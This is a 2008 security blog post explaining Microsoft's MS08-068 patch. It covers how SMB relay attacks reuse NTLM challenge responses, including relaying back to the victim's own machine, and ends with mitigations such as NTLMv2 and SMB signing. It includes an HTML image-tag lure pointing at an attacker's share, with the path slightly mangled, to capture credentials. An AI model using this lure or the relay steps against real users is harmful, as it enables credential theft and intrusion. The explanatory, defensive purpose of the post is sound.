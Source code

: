 ```yaml
---
id: 116
title: 'ms08-068 &#8212; Preventing SMBRelay Attacks'
date: '2008-11-12T12:08:03-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=116'
permalink: '/?p=116'
---
```


Microsoft released ms08-068 this week, which fixes a vulnerability that's been present and documented since 2001. I'm going to write a quick overview of it here, although you'll probably get a better one by reading [The Metasploit Blog](http://blog.metasploit.com/2008/11/ms08-067-metasploit-and-smb-relay.html).

Keep in mind that there is a lot of fun stuff that can be done with the SMB protocol. I'm going to talk about a few different design flaws right now, and point out exactly what ms08-068 patches. Hang on, though, this is going to get somewhat technical. The payoff, however, is that this is incredibly interesting stuff, and I'm happy to clear up any technical confusion. Just leave me a comment or an email!

I have talked about how [Lanman and NTLM](http://www.skullsecurity.org/blog/?p=34) work (or fail to work) in the past, so I'll assume you've read that and just post a quick overview here. Basically, Lanman and NTLM will hash your password using their respective algorithms (and store the hashes on the system), then hash it again based on the server's 8-byte challenge. This second hash is the same for Lanman and NTLM -- it takes the hash already generated, splits it into three 7-byte chunks (padding it to 21 bytes), and encrypting the server challenge with each of those chunks. If an attacker already has access to the Lanman and NTLM hashes, then the game has already been won (the hashes can be directly used to log in).

The primary advantage to having a server challenge is to prevent pre-computed attacks (that is, it provides salt-like value to prevent rainbow tables-style precomputation attacks against the algorithm). Naturally, a malicious server can send a known challenge and generate tables based on that. This type of attack has been fixed in NTLMv2 (since the client provides part of the randomness).

A SMB Relay attack is a type of man-in-the-middle attack where the attacker asks the victim to authenticate to a machine controlled by the attacker, then relays the credentials to the target. The attacker forwards the challenge from the server to the client, and the client answers based on that challenge, giving the attacker access. Here are the players:

- The **attacker** is the person trying to break into the box
- The **victim** is the person who has the credentials
- The **target** is the system the attacker wants access to, and that the victim has credentials for

And here's the scenario:

1. Attacker tricks the victim into connecting to him; this is easy, I'll explain how later
2. Attacker establishes connection to the target, receives the 8-byte challenge
3. Attacker sends the 8-byte challenge to victim
4. Victim responds to the attacker with the password hash
5. Attacker responds to the target's challenge with the victim's hash
6. Target grants access to attacker

In the case of Metasploit, the attacker goes on to upload and execute shellcode, but that process isn't important.

Now, as an attacker, we have two problems: the victim needs to initiate a connection to the target, and the victim needs to have access to it.

The first one is easy -- to initiate a session, send the user a link that goes to the attacker's machine. For example, send them to a Web site containing the following code:

```
<img src="\AttackerSHAREfile.jpg">
```

Their browser will attempt to connect to a share on the attacker called "SHARE", during which a session will be established. The victim's machine will automatically send the current credentials, hashed with whatever challenge is sent by the attacker (naturally, it's the target's challenge). This can be delivered to them through an email link, through a stored cross-site scripting attack, by some sneaky vandalism, or by any number of ways.

Other ways to do this include DNS poisoning, ARP spoofing, \[url=http://www.skullsecurity.org/blog/?p=6\]NetBIOS poisoning\[/url\], and any number of other ways. Suffice to say, it's pretty easy to trick the victim.

The second trick is that the victim needs to have access to the target. This one is slightly more difficult, but it can happen in a number of ways:

- In a domain scenario, the user's domain account may have access to multiple machines, including the target
- In other scenarios, users are well known to synchronize their password between machines. The target may have the same password as the victim, which would make the attack work
- The target may be the *same physical machine as the victim*

That third point is the interesting one -- this can be used to exploit the computer itself! So, in that scenario, here are the modified steps:

1. Attacker tricks the victim into connecting to him
2. Attacker establishes connection back to the victim, receives the 8-byte challenge
3. Attacker sends the victim's 8-byte back
4. Victim responds to the attacker with the password hash that'll give the attacker access to the victim's own computer
5. Attacker responds to the victim's challenge with the victim's hash
6. Victim grants access to attacker

Hopefully that isn't too confusing. What it essentially means is that the victim will grant access to the attacker using its own credentials.

And this particular attack is what ms08-068 patches!

To put it another way: ms08-068 patches an attack (discovered in 2001) where a victim is tricked into giving an attacker access to connect to itself.

## Mitigation

I talked a lot about vulnerabilities in the SMB protocol. Unfortunately, ms08-068 only fixes one of them. The issue is that the others are design flaws and can't be fixed without breaking clients. That being said, even though Microsoft can't fix them, you can fix them yourself, more or less, at the cost of potentially breaking clients (these can be done with local/domain security policies or registry hacks; search for them to find information):

- Enable (and require) NTLMv2 authentication -- this will prevent pre-computed attacks, because the client provides part of the randomness
- Enable (and require) message signing for both clients and servers -- this will prevent relay attacks
- Install ms08-068 -- this will prevent a specific subset of relay attacks, where its relayed back to itself

Hope that helps!

And, as usual, if you have any questions feel free to track me down.

Ron
